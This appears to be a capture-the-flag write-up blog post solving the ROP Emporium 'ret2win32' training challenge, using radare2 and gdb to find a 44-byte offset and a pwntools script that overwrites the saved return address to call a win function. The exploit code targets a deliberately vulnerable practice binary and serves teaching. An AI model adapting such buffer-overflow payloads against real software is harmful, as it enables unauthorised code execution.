 ```yaml
---
layout: post
title: "Ret2win32"
author: "Trojan187"
categories: ctf
tags: [practice,learning]
image: ret2win.PNG
---
```



## Table of Contents

1. [Introduction](#introduction)
2. [Analysis](#analysis)
3. [Plan](#plan)
4. [Solution](#solution)


##  Introduction

The challenge provides us with the binary.

HINT from: [!https://ropemporium.com/challenge/ret2win.html](https://ropemporium.com/challenge/ret2win.html)
As it states; you'll feed each binary with a quantity of garbage followed by your ROP chain. In this case there is a magic method we want to call and we'll do so by overwriting a saved return address on the stack. Certainly nothing that could be called a 'chain' by any stretch of the imagination but we've got to start somewhere. We'll do a little RE to confirm some information but nothing serious

---
### ROP-Emporium: ret2win32

_Files:_ `ret2win32`

---

##  Analysis

Lets take a look at the properties of the binary.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/checksec.PNG">

Using radare2 to analyze all referenced code.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/r2_aaaa.PNG">

Print the disassembly of the ret2win() function.
NOTE* `0x08048662` This looks very interesting and a potential address that can be used if the registers can be controlled. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/r2_pdf_ret2win.PNG">

Creating a pattern of 100 characters to use to locate the segmentation fault

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/gdb_start_pattern_create.PNG">

Segmentation fault occured and EIP was overwritten by 'AFAA' `0x41414641`. The offset is located at 44 bytes. 
EIP can now be controlled.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/gdb_EIP_Seg_fault.PNG">

##  Plan

The hint said there will not be chaining required, hmmm the solution may just be that simple. So I thought I would just input the address I noted `0x08048662` when disassembling the ret2win() function im `Image#3` above. 


```python

run <<< $(python -c 'print "A"*44 + "\x62\x86\x04\x08"')
```
Nice! It worked. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/gdb_flag.PNG">

And this is my final python script to exploit it.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/flag.PNG">

##  Solution

```python

#!/usr/bin/python
from pwn import *

context(arch='x86', os='linux', endian='little', word_size=32)

binary_path = './ret2win32'
e = ELF(binary_path)
p = process(binary_path)

buf = "A" * 44
buf += p32(0x08048662)

print(p.recvuntil('!\n'))
p.sendline(buf)
p.interactive()



```



## END
---

